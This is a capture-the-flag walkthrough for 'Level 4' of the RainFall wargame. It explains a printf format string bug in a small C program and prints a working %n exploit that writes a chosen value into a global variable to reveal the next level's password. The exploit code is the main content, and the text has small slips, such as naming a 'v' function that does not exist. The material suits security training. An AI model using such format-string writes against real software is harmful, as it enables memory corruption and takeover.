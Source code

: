 # Level 4

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>

int m;

void p(char *buffer)
{
    printf(buffer);
}

void n(void)
{
    char buffer[512];
    fgets(buffer, 512, stdin);

    p(buffer);
    if (m == 16930116)
        system("/bin/cat /home/user/level5/.pass");
}

int main(void)
{
    n();
}
```

Let's focus on the `v` function. It reads input using the `fgets` function, which is known to be safe due to its mechanism to limit the number of bytes read. However the `printf` function (called from the `p` function) is known to be unsafe when user input is passed as the format argument, it's referred to as a format string vulnerability.

This exercise is the same as the previous one, except that we have to write 16930116 bytes to the `m` variable to spawn a shell. Please refer to the [level3 walkthrough](../level3/walkthrough.md) for a detailed explanation of the format string vulnerability.

So, First let's locate our input string on the stack and then determine the address of `m`:
```bash
level4@RainFall:~$ python -c 'print("AAAA %x %x %x %x %x %x %x %x %x %x %x %x")' | ./level4
AAAA b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 41414141
```

In this output, 41414141, the hexadecimal representation of 'AAAA', is found at the twelfth position.

The assembly code reveals that the address of the `m` variable is `0x8049810`.

We can then craft our payload:
```
address of m + padding + %n format specifier pointing to the twelfth argument

"\x08\x04\x98\x10"[::-1] + "%16930112p" + "%12$n"
```

Since we need to write 16930116 into `m`, we write 16930116 characters (4 from the address of m and 16930112 from the width specifier of `%p`). 
Then, we use the `%n` format specifier to write the count of bytes written so far into the twelfth argument, which corresponds to `m`'s address.

Let's run our payload:
```bash
level4@RainFall:~$ python -c 'print("\x08\x04\x98\x10"[::-1] + "%16930112p" + "%12$n")' | ./level4
[...]
0xb7ff26b0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

We are now level5! Let's move on to the next level.
